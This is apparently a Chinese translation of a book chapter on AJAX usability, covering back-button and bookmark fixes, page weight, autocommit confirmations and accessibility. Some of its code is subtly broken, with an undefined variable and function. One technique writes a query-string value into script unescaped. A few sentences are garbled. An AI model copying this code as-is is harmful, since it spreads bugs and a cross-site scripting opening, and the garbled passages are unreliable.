此外，我们研究了在构建支持AJAX的应用时需要注意的一些重要安全问题。具体来说，虽然使用基于AJAX的应用架构不会产生新的攻击，但攻击面大小会显著增加，为潜在攻击者提供了更多寻找漏洞的机会。同样，严格依赖客户端上的业务逻辑可能是个糟糕的决定，因为攻击者可以不受限制地访问客户端代码，使他们能够绕过例如可能未在服务器上复制的数据验证代码。

## 资源

- `http://www-128.ibm.com/developerworks/library/specification/ws-rm/`
- `http://www.owasp.org/`
- `http://seclists.org/lists/fulldisclosure/2006/Apr/0823.html`
- `http://sec.drorshalev.com/dev/xss/xssTricks.htm`
- `http://www.cgisecurity.com/articles/xss-faq.shtml`
- `http://www.cert.org/tech_tips/cgi_metacharacters.html`
- `http://www.owasp.org/documentation/topten/a4.html`
- 存储过程，`http://www.onjava.com/pub/a/onjava/2003/08/13/stored_procedures.html`

# 第 8 章：AJAX可用性

## AJAX可用性

新兴技术往往是一把双刃剑。全球范围内从传统Web应用向AJAX应用的过渡迅速且前所未有。这一点从相关文献的快速激增以及数百个旨在帮助和简化开发的独立开源库和商业AJAX产品的出现可见一斑。在开发者工具领域，我们看到了AJAX资源的成熟与发展。微软有ASP.NET AJAX，Sun有Netbeans和Java Studio Creator等用于AJAX开发的工具。XHR正在改变我们设计和构建Web软件的方式，当我们开始使用它来解决旧的可用性问题时，我们不经意间在过程中创造了新的问题，这并不令人惊讶。本章探讨了一些与AJAX相关的特定关键可用性问题，以及如何在企业环境中解决它们。

软件界面的可用性包含五个子方面：

- **可学习性**—用户是否能在首次访问时立即使用应用程序，而无需特殊培训或外部协助？
- **可记忆性**—用户下次需要时是否记得如何使用该应用程序？
- **有效性**—设计元素的使用是否一致且可预测？用户是否能轻松浏览应用程序，理解下一步必须做什么，并采取有意的操作？
- **高效性**—用户能否快速找到所需内容并达成目标？
- **满意度**—用户使用该应用程序时感觉良好吗？他们是否愿意再次使用？他们是否感到能够充分实现自己的目标？

构建丰富、交互式的软件当然有助于提高界面的可记忆性和高效性，而且设计约束越少有助于提高可学习性，这是合理的。然而，拥有新的构建仅仅拥有优质的材料并不能保证构建出更好的产品。你仍然需要注意一些常见的陷阱，以及一些可以主动应对不良设计的方法。本章以及下一章关于界面模式的内容，将提供一些工具，用于设计可用的AJAX应用程序，这些应用不仅令人难忘且高效，而且易于访问且令人满意。

## 常见问题

尽管前面讨论了AJAX能为Web应用做些什么（线程处理、数据实时性，以及添加强大的新UI模式），但AJAX并非万能灵药。它可以极大地改善可用性，但也为希望在企业环境中使用它的开发者带来了一些新的挑战。本节将探讨AJAX开发中可能遇到的一些问题，以及如何避免或克服它们。

## 后退按钮与书签功能

由于浏览器的*后退按钮*已成为新的“撤销”功能。研究人员发现，后退按钮占浏览器所有点击操作的40%。[1] 用户已经习惯于一直点击浏览器上的后退按钮，但随着Web应用变得越来越复杂，并叠加了异步通信，这种模式已被有效破坏。后退按钮的概念已开始向桌面应用领域渗透。在探讨AJAX相关的这个问题时，会出现两个内在联系的问题：在AJAX应用中，我们通常发现后退按钮和浏览器的书签功能都不再正常工作。它们有一个共同的成因和解决方案。

### 后退按钮出了什么问题？

在应用中实现AJAX的开发者很快会发现，浏览器的原生控件（后退、前进、书签、刷新）与这个新的Web应用模型配合不佳。问题产生的原因是，AJAX页面是分片段（随着时间推移）组装的，而浏览器导航只注意到第一步（初始页面加载）。本质上，任何AJAX页面都可以看作是一个起始页面加上对DOM的一个或多个更改。

从Web开发者的角度来看，这个问题包含三个子部分：

- 在AJAX应用中点击*后退*按钮
- 在AJAX应用中点击*前进*按钮
- 对使用AJAX构建的页面进行*书签*

AJAX实际上并不改变URL或更新浏览器的导航——它使用*状态改变*的超链接。状态改变链接的一个例子是，一个按钮将用户登录到网站的新区域，或者将一些内容加载到可查看区域。实际上，点击按钮改变了用户的应用状态，但由于它是通过许多小阶段到达的，因此不易被引用或书签。这里打破的传统是，通常一个超链接指向一个资源或文档。当用户在应用中点击AJAX导航控件时，这种更改通常不会存储在浏览器的导航日志中。当用户点击*后退*按钮，期望网页返回到上一状态（*就像撤销一样*）时，他们会惊讶地发现，浏览器重新加载的是历史记录中的前一个页面——而不是他们想要的那个。同样，点击*前进*按钮也无法重现先前执行过的AJAX操作。现在用户迷失了方向，感到困惑或沮丧，或者三者兼有。

要理解用户使用浏览器导航时的期望与实际发生情况之间的脱节，请看下面的图表。图8.1展示了当用户点击*后退*按钮时实际发生的情况。



#### 图8.1 AJAX如何破坏后退按钮

1. 用户使用普通超链接进入AJAX应用的起始页面。
2. 用户使用AJAX按钮或链接，这导致页面以某种方式更新。
3. 用户点击*后退*按钮，期望返回到上一状态，但反而返回到了进入AJAX应用之前访问的网页。

图8.2展示了用户在AJAX应用中期望的体验。



#### 图8.2 修复后退按钮

1. 用户使用普通超链接进入AJAX应用的起始页面。
2. 用户使用AJAX按钮或链接，这导致页面以某种方式更新。
3. 用户点击*后退*按钮，返回到上一状态。

书签功能也存在类似的困难。使用浏览器书签功能时，只会保存地址栏中当前的URL。当用户为AJAX应用添加书签并尝试加载该书签时，他们会回到进入应用时的那个页面。

## 浏览器历史记录中应该包含什么？

AJAX的用武之地通常不缺，我们的应用常常会迅速充斥着异步回调，将各个小部件相互链接，并在多处加载实时内容。是否应该将每个用户操作都存储在浏览器历史记录中？用户会觉得这是帮助还是阻碍？

如果我们想在应用中实现真正的撤销功能，不仅需要存储页面的基本细节，还需要存储撤销沿途采取的任何操作所需的每一步——可以把它想象成数据库的事务日志。为此，我们可以使用这里描述的相同技术，但页面状态很可能需要链接到一个包含这些操作的数据源，并且所有业务逻辑都需要能够撤销它们。

作为一般规则，我们通常只在页面状态为应用程序提供了一个重要且固定的参考点时，才需要将其存储在浏览器历史记录中。所谓重要，是指用户可以轻松重复导致该页面状态的操作，并且该操作改变了应用程序的基本状态。所谓固定，是指该状态是持久的，并且可以作为进一步用户交互的逻辑起点进行书签。以CRM应用程序为例，一个非固定状态可以是某个特定客户的视图——因为该客户可能被删除或修改。一个固定状态则是客户列表，因为我们确信应用程序不太可能删除整个客户列表。

应添加到浏览器历史记录的内容如下：

- 与应用程序主要导航相关的页面
- 所有进入应用程序功能的入口点（客户和产品列表、搜索屏幕等）
- 永久性内容的视图

不应添加的内容如下：

- 页面内容的次要或不重要的更新
- 其他非永久性的应用程序状态（可能下次就不存在的数据视图）
- 非由用户发起的DOM更新

如果你有疑问，请询问你的目标用户他们想要收藏什么书签；除了发现应用程序的需求外，你可能会对用户告诉你的内容感到惊讶。

## 解决方案

这个问题没有完美的解决方案，但有一些替代方法。根据你对某些复杂的JavaScript技术（用于维护基本浏览器导航功能）的熟悉程度，你可能更愿意选择一种高级解决方案，它只是提供后退/前进/书签功能的替代方案，而不是试图“修复”浏览器本身。

无论你选择哪种技术，都必须牢记用户就是用户，如果你的用户点击了*后退*按钮，结果毁掉了一小时的工作，你可以确定他们会抱怨你糟糕的编程技能。

### 技术1：哈希法

哈希法很好地解决了Internet Explorer和基于Mozilla的浏览器的*书签*问题。不幸的是，它只为后者解决了*后退*按钮的问题。Internet Explorer需要本章后面描述的iFrame方法中所述的额外逻辑。

这个解决方案的出发点是，我们应该构建一个URL，它不仅描述原始页面，还描述所有重要的DOM操作。所谓重要，是指用户在页面上所做的任何事情（例如，移动到网站的不同区域），根据常识，这些都应该存储在浏览器历史记录中。

举个例子，假设有一个AJAX应用，它只有一个内容区域（我们称之为`MyContentArea`，如图8.3所示），该区域在原始页面加载后通过AJAX更改。可以很容易地定义查询字符串参数来描述此页面以及`MyContentArea`中的任何数据：

```text
myajaxapp.php?MyContentArea=content.txt
```

#### 图8.3 带有单个 AJAX 内容区域的网页

遗憾的是，浏览器无法在不触发页面加载的情况下更改地址栏中的绝对URL，除非使用哈希（`#`）符号来定义锚点位置：

```text
myajaxapp.php#content.txt
```

在HTML中，哈希用于标识文档内部的链接；它会指示浏览器在目标文档中查找与哈希文本匹配的`<A>`标签并滚动到该位置。如果未找到相应的`<a>`标签，浏览器将不做任何操作。对AJAX开发者来说，好消息是在Firefox中，每次创建新的哈希时，都会在浏览器历史记录中添加一个条目。我们可以使用JavaScript以编程方式读取哈希，并在按下后退按钮时利用存储在哈希中的信息重新创建所有先前的“状态”。你可以通过调用`window.location.hash`来读取和设置查询字符串中的哈希。

```javascript
window.location.hash = "content.txt";
```

[^7]: <http://www-128.ibm.com/developerworks/xml/library/x-think37/index.html>


此时地址栏显示为`"myajaxapp.php#content.txt"`。

## 第 8 章 AJAX 可用性

为了读取哈希并将其转换为 AJAX 指令，我们创建一个全局变量来表示当前状态，并编写一个短函数来测试当前状态与地址栏是否不同步：

```javascript
var GlobalHashLocation = "";

function constructStateFromURL() {
  var sHash = window.location.hash.replace('#', '');

  if (GlobalHashLocation != sHash) {
    // 当前哈希内容与全局变量不匹配，因此
    // 发出 Ajax 调用以加载该哈希对应的内容。
    if (sHash.length > 0)
      ajaxGrabResponse(sHash, displayResults);
  }
}
```

在我们的`ajaxGrabResponse`函数中，我们需要更新`GlobalHashLocation`以及 URL 中实际的哈希符号。

```javascript
function ajaxGrabResponse(sAjaxUrl, fCallback) {
  // 将 GlobalHashLocation 变量设置为当前哈希
  GlobalHashLocation = sAjaxUrl;

  // 将实际页面哈希设置为当前页面状态 - 适用于
  // Mozilla。在 IE 中对于书签问题也很有用。
  window.location.hash = GlobalHashLocation;

  // 现在从服务器请求更新的内容
  var xhr = new entAjax.HttpRequest();

  xhr.responseType = "text";
  xhr.handler = sAjaxUrl;
  xhr.completeCallback = fCallback;
  xhr.get();
}
```

当用户点击后退按钮时，之前的哈希会显示出来，而页面本身不会改变。因此，为了检测后退按钮已被按下，我们需要定期检查`window.location.hash`字符串是否发生变化（例如，每 100 毫秒检查一次）。实现这一点的最佳方法是使用 JavaScript 设置一个定时器。我们可以在`onload`事件中启动它，并使用我们刚刚创建的`constructStateFromURL()`函数来执行此操作：

```html
<body onload="setInterval(constructStateFromURL, 100);">
```

这样做还有一个额外的好处，就是也解决了书签问题。当页面现在通过查询字符串中的`#content.txt`加载时，正确的内容将被加载到`MyContentArea`中。

如前所述，这对 Mozilla 来说优雅地解决了问题，并且也解决了 Internet Explorer 的书签问题，但还需要进一步的工作来修复 Internet Explorer 中的后退按钮。原因是 Internet Explorer 6 和 7 不会将哈希的更改添加到浏览器历史记录中。

### 技巧 2：iFrame 方法

由于 Internet Explorer 不会将哈希更改保存到浏览器历史记录中，因此仅使用哈希方法时，我们只能得到一个不完整的解决方案。它仍然适用于书签，但要修复后退按钮还需要解决另一部分问题。请注意，如果我们的目标是为这两个问题提供完整的解决方案，应该将哈希方法和 iFrame 方法结合使用。

因为更改网页上某个 iFrame 的 URL 会在 Internet Explorer 中更新浏览器历史记录，我们只需使用一个隐藏的 iFrame（参见图 8.4），通过主动强制 iFrame 加载新页面来将 URL（包含哈希）存储在浏览器历史记录中。每次我们更改查询字符串中的哈希时，也需要更改 iFrame 的 URL。

**图 8.4** Internet Explorer 的 iFrame 修复方案

可以使用 JavaScript 在 iFrame 内生成页面，而无需让 iFrame 加载外部网页。但为简单起见，我们专注于使用外部网页。

遗憾的是，事情并不那么简单。因为 Internet Explorer 不会将哈希信息保存在浏览器历史记录中，我们需要将哈希本身存储在 iFrame 中。最好的方法是在 iFrame 中加载一个动态网页，该网页根据需要返回哈希值。在我们的例子中，将其命名为`iebbfix.php`。它应该是一个动态页面（因此我们使用 PHP），因为页面的部分内容需要动态创建，正如我们将看到的那样。

在网页`<body>`的某处，你会看到：

```html
<iframe id="IEFrame" src="iebbfix.php" style="display: none;"></iframe>

<button onclick="ajaxGrabResponse('a.txt', displayResults);">将内容更改为 a.txt</button>
```

为了知道后退按钮已被按下，我们需要 iFrame 告诉我们当前的哈希值。如果按下了后退按钮，这个值会发生变化，我们就知道需要更新页面的状态。我们可以通过检查 iFrame 的 URL 来实现这一点，但这种方法有其自身的缺点。最好的方法是在`iebbfix.php`中创建一个 JavaScript 函数，根据需要返回哈希值。

```html
<script type="text/javascript">
function getHash() {
  // 以下行是通过
  // 查询字符串参数动态构造的。它是父页面分配的哈希值。
  return '#content.txt';
}
</script>
```

回到我们之前的`constructStateFromURL()`函数，我们可以添加代码来检查 iFrame 中包含的`getHash()`函数：

```javascript
var GlobalHashLocation = '';

function constructStateFromURL() {
  var dIFrame = document.frames['IEFrame'];

  if ((entAjax.IE) && (GlobalHashLocation !=
    dIFrame.getHash())) {
      if (dIFrame.getLocation().length > 0)
        ajaxGrabResponse(dIFrame.getHash(), displayResults);
  }

  var sHash = window.location.hash.replace('#', '');

  if (GlobalHashLocation != sHash) {
      if (sHash.length > 0)
        ajaxGrabResponse(sHash, displayResults);
  }
}
```

对`ajaxGrabResponse`的一些调整包括更新 iFrame`iebbfix.php`。在这里，我们将哈希作为查询字符串参数发送。

```javascript
function ajaxGrabResponse(sAjaxUrl, fCallback) {
  GlobalHashLocation = AjaxUrl;
  window.location.hash = GlobalHashLocation;

  // 检查是否是 IE 并将哈希添加到 iFrame URL 查询字符串
  if (entAjax.IE)
    $('IEFrame').setAttribute('src',
      'iebbfix.php?hash=' + GlobalHashLocation);

  // 现在执行我们的 Ajax 回调
  var xhr = new entAjax.HttpRequest();

  xhr.responseType = "text";
  xhr.handler = sAjaxUrl;
  xhr.completeCallback = fCallback;
  xhr.get();
}
```

### 技巧 3：不要将 AJAX 用于导航

有很多论点认为 AJAX 不适合用于主要导航，例如在 Web 应用程序中进行页面间跳转以及书签功能。通过明智地将 AJAX 的使用限制在最能让用户受益的地方，我们可以避免大多数导航问题。我们看到了额外的益处：仅在需要频繁且快速地与服务器通信以检索少量数据的区域实施微更新。通过让浏览器执行其设计时的功能，我们可以避免为了修复它而不得不破坏它。

## 为 Safari 解决问题

虽然 Safari 用户目前仍只占一小部分，但上述解决方案对他们帮助不大。使用哈希方法配合一些复杂的 JavaScript 来支持某种伪历史对象（类似于我们为 Internet Explorer 和 Mozilla 所做的）已取得一些成功。与保留后退按钮行为相比，书签问题要简单得多，因为 URL 哈希至少可以通过 JavaScript 进行读写，并相应地构建页面。尽管如此，一些棘手的错误仍然困扰着 Safari 阵营，例如使用当前技术时出现的浏览器锁定和意外的页面刷新。很有可能，而且确实很可能，苹果（Safari 的制造商）将来会提供更优雅的解决方案，但迄今为止，他们拒绝就产品路线图问题发表评论。

与此同时，有两个问题阻碍了哈希或片段标识符历史记录在 Safari 中的实现。第一个问题是，除非更改是由用户点击链接发起的，否则 Safari 通常不会将更改的片段标识符添加到历史记录中。

例如，用户点击以下超链接可以可靠地向 Safari 的历史记录添加一个条目。

```html
<a href="#foo">点击这里</a>
```

然而，以下 JavaScript 将仅替换当前的历史记录项，而不是添加一个新的。

```javascript
window.location.href = "#foo";
```

例如，如果用户位于`"index.html"`，然后点击一个链接跳转到`"index.html#start"`，随后通过 JavaScript 调用被带到`"index.html#foo"`。然后，他可以点击一个链接跳转到`"index.html#end"`。如果用户随后反复点击后退按钮，他将在地址栏中看到以下序列项：`"index.html#end"`、`"index.html#foo"`，然后是`"index.html"`。条目`"index.html#start"`缺失了，因为它被脚本更改为`"index.html#foo"`的操作覆盖了。

另一个相关的问题是，当用户点击后退按钮时，Safari 不会报告`location.hash`的正确值。相反，它报告的是点击后退按钮之前的`location.hash`值。例如，如果用户位于`"index.html#one"`，他点击一个链接跳转到`"index.html#two"`并点击后退按钮，`location.hash`的值仍然是`"#two"`（即使地址栏显示`"index.html#one"`）。

### iFrame 变通方案（用于 Internet Explorer）

iFrame 变通方案（用于 Internet Explorer）无法解决这两个问题中的任何一个，因为 Safari 不会可靠地为在框架中发生的页面更改创建历史记录。

好消息是，我们可以通过向应该加载的片段标识符提交表单来解决哈希问题：

```html
<form name="x" method="GET"></form>

<script type="text/javascript">
function goTo(fragment_identifier) {
    document.forms.x.action = fragment_identifier;
    document.forms.x.submit();
}

goTo("#foo");
</script>
```

此操作可通过脚本执行，并且始终会向 Safari 的历史记录添加一条记录。此变通方案的一个显著缺点是，如果页面 URL 中有任何参数，则无法工作。例如，如果此示例用于以下 URL 的页面：

```text
index.html?lorum=ipsum
```

Safari 会尝试加载：

```text
index.html#foo
```


第二个问题不太容易解决。看起来，当按下*后退*按钮时，Safari 可靠更改的唯一脚本变量是`document.body.scrollTop`。为了使此变量可用，有必要将其控制权从用户手中接管。这可以通过对`document.body`应用`"overflow:hidden;"`样式来实现，同时添加一些脚本以在拖放事件期间保持正确的`scrollTop`。

实际页面加载在一个具有以下样式的 iFrame 中：

```css
"position: fixed;width:100%;height:100%;top:0px;left:0px;border:0px;"
```

Safari 对`"position:fixed"`样式的支持防止了 iFrame 在（父）页面滚动时移动，这使得 iFrame 始终能够正确定位以完全填充浏览器窗口。

每当需要更改片段标识符时，首先在页面上的唯一、特定的垂直位置动态创建一个`<a name="(...)"></a>`（使用绝对定位的 DIV 和间隔``），并将其垂直位置存储以备将来查找。接下来，向此片段标识符提交表单（如第一个问题的变通方案所述）。这会导致向 Safari 的历史记录添加一条记录，并且每当用户返回到该记录（通过单击*后退*）时，Safari 会滚动回该`<a>`标签。脚本可以通过监控`document.body.scrollTop`来检测此情况，并且可以通过在其`<a>`垂直位置列表中查找`document.body.scrollTop`来找到用户返回的片段标识符的名称。（在底部锚点的末尾添加了一个`height=100%`的间隔``，以便`scrollTop`可用于查找页面最后一"屏"的`<a>`位置。）

这一切工作得很好……直到用户离开页面前往其他站点。如果他们单击*后退*返回页面，所有`<a>`标签都将丢失，以及准确确定正确`location.hash`的能力。这可以通过保持一个隐藏的`<textarea>`或`<input type=HIDDEN>`并使用所有这些信息进行更新来解决。如果用户离开页面然后返回，这些信息可以在他返回时从`<textarea>`的缓存数据中重新加载。

## 页面重量

*页面重量*是指下载网页时下载的数据千字节数（包括所有图像、文本和附件），它是用户下载页面所需时间的粗略指标。我们在 Web 应用中提到页面重量时，实际上指的是页面*等待*时间，以及最终的可用性。计算页面重量就像将页面所有已下载资源的大小相加一样简单。一个简单的计算可以给出用户下载页面需要等待多长时间的大致指示。例如：

| 资源 | 大小 |
| :--- | :--- |
| 网页大小 | 10 KB |
| JavaScript 附件 | 15 KB |
| 所有图像的大小 | 7 KB |
| **总页面重量** | **32 KB** |

| 连接类型 | 平均下载时间 |
| :--- | :--- |
| 56-K 调制解调器 | 5.3 秒（每秒 6 KB） |
| DSL 连接 | 1.0 秒（每秒 30 KB） |

最近的调查显示，2006 年美国活跃互联网用户家庭中，高速宽带普及率已超过 50%。在加拿大，这一数字甚至更高（接近 80%）。这比前一年的 50%有所上升，且趋势显示稳步增长。然而，仍有一类用户坚持使用其老旧的 56-K（或更慢）调制解调器，尽管他们几乎每天都在线。工作场所中，近 80% 的用户可以使用宽带。尽管如此，页面重量仍是开发人员心中的重要考虑因素。如果 20% 到 40% 的用户无法快速下载页面，这将严重影响网站的覆盖范围。然而，这是一个相当大的假设：页面重量直接影响可用性。我们凭直觉就知道这在极端情况下是正确的，但多重算太重，AJAX 是让情况变好还是变糟了呢？

### 页面重量是一个问题吗？

在 Web 应用中添加大量丰富的 AJAX 功能时，一个常见的担忧是它如何影响页面性能和下载时间。这里的基本问题是它如何影响用户体验。研究表明，与性能相关的问题有三个，它们对用户的影响大致按以下顺序排列：

1. 任务复杂度
2. 抖动（延迟的可变性）
3. 等待时间

要理解为什么过多的页面重量是一个问题，我们需要理解*延迟*和*吞吐量*。延迟描述的是从发出请求到收到该请求的响应之间经过的时间。在 Web`).push`Web 的情况下，这是单个数据包的往返时间，以毫秒为单位测量。吞吐量可以被视为在给定时间段内可以在浏览器和服务器之间传输的数据量。数据类似于水，管道越大，从 A 点移动到 B 点的就越多。

向应用中添加过多的 AJAX 组件会迅速增加应用在浏览器中的占用空间。使用流行的框架（如 Dojo）及其所有相关的 JavaScript 文件、HTML 和 CSS，可以迅速为您的页面增加 70 KB 或更多。对于使用拨号连接的用户，这可能意味着 15 秒或更长的下载时间。页面中包含未优化的 JavaScript 会迅速膨胀这个数字。一些流行的商业 AJAX 组件的大小可能达到 500 KB 或更多。

当前研究表明，如果网页未在 10 到 12 秒内加载，用户可能会放弃尝试。⁴ 一项研究表明，尽管用户最初对 10 秒延迟后的应用有负面看法，但随着会话进行到结束，这种挫折感阈值缩小到 4 秒。⁵ 这意味着用户与慢速网站交互越多，就越会感到沮丧。IBM 在 1968 年的一项研究⁶发现，如果等待时间保持在 1 秒以下，用户不会受到负面影响。该研究还发现，4 秒后，用户的注意力开始分散。所有这些发现中一致的是（在所有其他条件相同的情况下），用户挫折感随着下载时间的延长而增加。然而，一些研究表明，用户对速度的主观衡量与等待时间的长度关系不大，而与其他因素（如抖动（延迟的可变性）和任务复杂度）关系更大。⁷ 特别是，研究表明，成功的任务完成比对下载时间的改进对网站感知速度的影响更大。

> ⁴Hozmeier, J. System Response Time and User Satisfaction: An Experimental Study of Browser-Based Applications, 2000.
>
> ⁵Bhatti, Nina, Anna Bouch, and Allan Kuchinsky. "Integrating User-Perceived Quality into Web Server Design," 9th International World Wide Web Conference, May 2000.
>
> ⁶Miller, R.B. "Response Time in Man-Computer Conversational Transactions," Proceedings of the AFIPS Fall Joint Computer Conference, 1968.
>
> ⁷Selvidge P. "How Long is Too Long to Wait for a Website to Load?" Usability News, 1999 1.2.

在用户界面工程公司^8 Jared Spool 进行的一项关于网站感知速度的研究中，发现用户始终认为亚马逊（Amazon.com）比 About.com 更快，尽管实际上亚马逊的下载速度更慢、耗时更长。研究发现，亚马逊网站的任务完成成功率更高，这得益于其更好的用户界面和内容组织，而这影响了用户对网站速度的感知。

关于用户界面延迟的问题，Teal 和 Rudnicky 的一项研究发现，响应时间的可预测性（或不可预测性）也会影响用户的挫败感。^9 延迟的可变性也被称为*抖动*。用户不会被动地等待网站加载，而是围绕这种延迟来组织自己的行为，试图预测应用程序接下来会做什么，并计划他们的下一步行动。这一点可以从我们自身的经验中得到验证。例如，Windows 中令人烦恼的一点是文件复制和其他磁盘操作的进度条不是线性计时的。不知道何时完成，对某些人来说比延迟本身更令人沮丧。想象一下在 Web 应用程序中这种情况重复发生多次。抖动会微妙地影响用户体验，因为它挫伤了用户对可预测性的需求。

## 管理问题

提高任何应用程序的可用性总是需要做出妥协。AJAX 和任何应用开发方法一样，本质上是资源与可用性之间的平衡。每当我们想添加一个功能时，必须权衡该功能的预期收益与增加页面体积的成本。在这种权衡中没有免费午餐。如果我们的用户接受更长的初始加载时间，AJAX 当然可以提供比以前更快的响应。在下一节中，你将了解优化用户体验并最小化页面体积影响的新方法。

^8 Spool, Jared M. An Interview with Jared Spool of User Interface Engineering, conducted by John Rhodes for WebWord, 2001.

^9 Teal, S.L. and A.I. Rudnicky. "A Performance Model of System Delay and User Strategy Selection," Proc. CHI '92 pp.295-305, 1992.

### 优先考虑界面可用性而非页面体积

Spool 关于亚马逊和 About.com 的研究表明，在衡量应用程序的速度时，用户更关心任务复杂度而非下载时间。这对 AJAX 来说是个好消息，因为降低任务复杂度正是它的优势之一。你可以使用 AJAX 通过消除通常与 Web 应用程序相关的不同屏幕之间的*跳跃*或来回切换，来减少任务步骤。亚马逊的研究表明，我们可以通过改善用户界面的质量来补偿更大的页面体积，从而对应用程序的感知速度产生净积极影响。

HTTP 请求的类型不一定影响延迟。在两个固定位置之间的会话中，延迟抖动往往保持在很低的水平；然而，请求的总延迟可能会受到响应大小以及数据接收后处理情况的影响。AJAX 的优势在于请求通常是异步的，这意味着即使浏览器正在等待服务器的响应，用户也可以继续与应用程序交互。

在 AJAX 的世界中，如果我们设计的应用程序能让用户体验达到或超过用户的期望，页面体积的问题就可以得到缓解。

### 利用缓存

如第5章“从设计到部署”中所述，将 JavaScript 从主 HTML 中移出并放入包含在页面头部的外部 JS 文件中，可以获得性能提升。这是因为这些外部文件的处理方式与图像相同，浏览器在再次下载 JavaScript 之前会检查其缓存控制标志。

### 减少文件数量

下载大量 JavaScript 和 CSS *代码* 是糟糕的，但下载大量 JavaScript 和 CSS *文件*也是糟糕的。最好将所有外部 JavaScript 文件合并为一个，这样浏览器请求和下载的速度会比请求多个单独文件更快。同样适用于 CSS 表和任何其他外部资源。

### 优化 JavaScript

第5章还讨论了优化（和混淆）JavaScript 的好处。通过移除空白和注释，并缩短变量名，我们可以大幅减少代码大小——有时可减少多达 50%。

### gZIP 压缩 JavaScript 和 CSS

迄今为止，减少页面体积的最佳方法是在服务器级别对网站上的所有内容进行 gZip 压缩（在 Apache 上使用`mod_gzip`，或在 IIS 上使用`ZipEnable`或`HTTPZip`等工具）。Internet Explorer、基于 Mozilla 的浏览器、Opera 和 Safari 都支持 gZip 压缩，因此应尽可能使用。下载时间的改进可能相当明显。

## 自动提交

AJAX 的一个优势在于它允许我们实时同步客户端和服务器端的数据模型。通过 AJAX，可以提交数据库更改而无需刷新页面。用户在网页上看到的是当前数据；这个功能对于不需要多级*撤销*功能的各种应用程序很有用。然而，对于在线电子表格应用程序来说，这并不理想，因为用户可能犯错，而这个错误可能会突然影响到企业中的其他领域。

### 提交还是不提交

接受确认是一个提示用户确认他想要进行永久更改的过程。传统的 Web 应用程序默认使用接受确认。很少会发现表单自动提交——用户必须点击*提交*按钮。用户期望他们可以在不无意中做出潜在灾难性更改的情况下与 Web 应用程序交互。在 AJAX 开发中，很容易忽视缺少接受确认或撤销功能，开发人员需要考虑到这一点，以防止用户进行非预期的更改。

### 经验法则

接受确认可以采取确认对话框的形式，或者简单地使用保存按钮。虽然我们不想通过额外的点击和步骤来挫败用户，但保护数据免受无意伤害的功能应优先于形式。我们最好采用对所有永久性更改使用接受确认的策略。

### 清晰标记永久性操作

对数据进行永久性更改的操作应清晰地标记出来。例如，人们理解“保存”这个词和保存相关的图标。磁盘符号也被认为是可接受的替代方案——这是人们从桌面端习惯的惯例。在永久性操作（如保存操作）发生后，为用户提供清晰、直观的提示也正在成为标准做法。

### 保护不可逆操作

在应用程序或操作系统删除数据或文件之前，用户期望有一个“最后机会”对话框。在 Office 应用程序的情况下，我们有*撤销*功能允许从错误中恢复；在 Windows 和 Macintosh 中，我们有“回收站”，用户删除的文件会保存在其中，直到他们清空它。大多数应用程序和操作系统的设计都使得不可恢复的操作在执行可能是错误的命令之前，会提示用户确认删除。在 JavaScript 中，`confirm()`方法允许我们建立类似的约定，提醒用户他们需要意识到他们正在做不可逆转的事情。当操作涉及删除重要数据时，我们应始终提示用户确认这确实是他们计划要做的事情。

## 无障碍访问

在非常基础的层面上，Web 无障碍访问是追求可用性的一个子集。可用性是关于设计高效、擅长实现其目标并让用户满意的用户界面。Web 无障碍访问的典型方法一直强调可访问软件的机械测试，这常常破坏了合理设计可用性设计的常识方法。简而言之，无障碍访问和可用性应该携手并进，但通常并非如此。

## 识别具有无障碍需求的用户

严格来说，所有用户都有无障碍需求。围绕无障碍的讨论主要聚焦于需求与你自己不同的用户。这些用户包括以下几种：

- 无法看到、听到、移动或难以（或完全不能）处理某些类型信息的用户。
- 阅读或理解文本有困难的户。
- 没有或不能使用键盘或鼠标的用户。
- 仅使用纯文本屏幕、小屏幕或网络连接缓慢的用户。
- 不能流利地使用文档所书语言进行交流的用户。
- 处于眼睛、耳朵或双手忙碌或受到干扰情况下的用户（例如，他们在操作机器的同时使用软件应用程序）。
- 使用旧版本浏览器、完全不同的浏览器、语音浏览器或不同操作系统的用户。

围绕 Web 无障碍和 AJAX 的讨论主要集中在仅使用键盘、不同浏览器或文本到语音设备（屏幕阅读器）的用户，因为正是在这些方面问题开始浮现。

在传统的网页设计中，通过自动化的算法通过/未通过测试来检查页面相对简单。这些测试检查的事项包括图像标签上的`alt`属性以及文本字段的适当标签。它们通常不能用于测试 AJAX 应用程序，因为开发测试的人员所持的某些假设不成立——例如，假设页面在加载后不会改变其内容。此外，AJAX 应用程序中的交互可能过于复杂，而且由于页面是增量构建的，自动化测试需要在不同阶段对页面进行多次测试。对于 AJAX 应用程序，我们需要熟悉一些与无障碍相关的技术问题，并对它们给予特别考虑。我们还应该运用一些判断力来评估无障碍功能的相对质量——这是算法测试永远无法做到的。

## JavaScript 与 Web 无障碍

根据 W3C 的 Web 内容无障碍指南<sup>10</sup>，网站应该在无 JavaScript 的情况下运行才能被视为无障碍。当然，AJAX 需要 JavaScript。它还需要 XMLHttpRequest，而这并非所有支持 JavaScript 的浏览器都具备。实际上，很少有必要构建一个不依赖 JavaScript 支持的应用程序版本。值得注意的是，*JAWS*（被广泛认为是最受视障计算机用户欢迎的软件工具），它允许盲人浏览万维网，依附于 Internet Explorer 运行，并支持 JavaScript 的使用。如果视障计算机用户没有主动在 Internet Explorer 中禁用 JavaScript，JAWS 默认会在开启状态下运行。同样，如果我们给予一些特别考虑，XMLHttpRequest 对于 JAWS 等工具来说未必会构成问题。

方便的是，JavaScript 也能为我们遇到的一些问题提供解决方案。

## 屏幕阅读器与无障碍

